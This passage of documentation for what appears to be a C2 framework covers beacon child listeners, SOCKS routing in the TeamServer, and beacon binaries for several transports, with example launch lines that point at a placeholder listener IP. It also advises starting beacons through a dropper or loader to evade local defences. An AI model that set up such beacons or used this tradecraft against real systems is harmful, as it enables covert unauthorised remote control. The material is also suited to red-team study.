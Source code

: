 This mechanism lets a beacon report back “I spun up another listener” (e.g., to accept downstream connections). The code treats these as **child listeners** associated with the parent session. 

![alt text](media/GraphPanel.png)

```c++
addSessionListener(beaconHash, listenerHash, type, param1, param2);
rmSessionListener(beaconHash, listenerHash);
getSessionListenerInfos();
```


### 4) SOCKS routing

There is a **parallel queue set** for SOCKS data (`m_socksSessions`) with APIs to **enqueue and fetch SOCKS task results** distinct from normal C2 tasks. But the transport is the same as the normal task traffic.

```c++
isSocksSessionExist(...)
addSocksTaskResult(...)
getSocksTaskResult(...)
```

This separation let the TeamServer use a thread to handle the socks traffic sepratly.

---


## Beacon: transports and module execution

The beacon provide multiple transport flavors:

* **HTTP/HTTPS**, **TCP**, **SMB**, **DNS**; each comes as a specialized beacon binary (e.g., `BeaconHttp.exe`, `BeaconTcp.exe`, `BeaconSmb.exe`).

Example:

> `BeaconHttp.exe <LISTENER_IP> <LISTENER_PORT> http/https`   
> `BeaconTcp.exe <LISTENER_IP> <LISTENER_PORT>`   
> `BeaconSmb.exe <LISTENER_IP> <PIPE_NAME>`

Using command-line arguments in the beacon may look odd from a stealth perspective. In practice, the beacon isn’t meant to be launched manually. Operationally, it should be started by a dropper/loader that handles the initial execution context, passes configuration internally and handle the heat of the local defence. The CLI exists for development, testing, and automation, not for production deployments.
